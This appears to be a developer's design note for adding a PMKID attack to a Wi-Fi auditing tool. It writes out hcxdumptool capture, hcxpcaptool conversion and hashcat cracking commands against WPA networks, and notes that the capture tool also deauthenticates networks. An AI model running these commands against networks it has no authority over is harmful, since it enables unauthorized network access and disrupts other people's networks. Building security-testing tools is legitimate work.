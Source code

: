 ### PMKID Attack

See https://hashcat.net/forum/thread-7717.html

### Steps

1. Start `hcxdumptool` (daemon)
   * `sudo hcxdumptool -i wlan1mon -o pmkid.pcapng -t 10 --enable_status=1`
   * Should also use `-c <channel>`, `--filterlist` and `--filtermode` to target a specific client
   * Could be a new attack type: `wifitex.attack.pmkid`
2. Detect when PMKID is found.
   * `hcxpcaptool -z pmkid.16800 pmkid.pcapng`
   * Single-line in pmkid.16800 will have PMKID, MACAP, MACStation, ESSID (in hex).
3. Save `.16800` file (to `./hs/`? or `./pmkids/`?)
   * New result type: `pmkid_result`
   * Add entry to `cracked.txt`
4. Run crack attack using hashcat:
   * `./hashcat64.bin --force -m 16800 -a0 -w2 path/to/pmkid.16800 path/to/wordlist.txt`

### Problems

* Requires latest hashcat to be installed. This might be in a different directory.
   * Use can specify path to hashcat? Yeck...
   * % hashcat -h | grep 16800
   * 16800 | WPA-PMKID-PBKDF2
* If target can't be attacked... we need to detect this failure mode.
   * Might need to scrape `hcxdumptool`'s output
   * Look at `pmkids()` func in .bashrc
   * hcxpcaptool -z OUTPUT.16800 INPUT.pcapng > /dev/null
   * Check OUTPUT.16800 for the ESSID.
* Wireless adapter support is minimal, apparently.
* hcxdumptool also deauths networks and captures handshakes... maybe unnecessarily


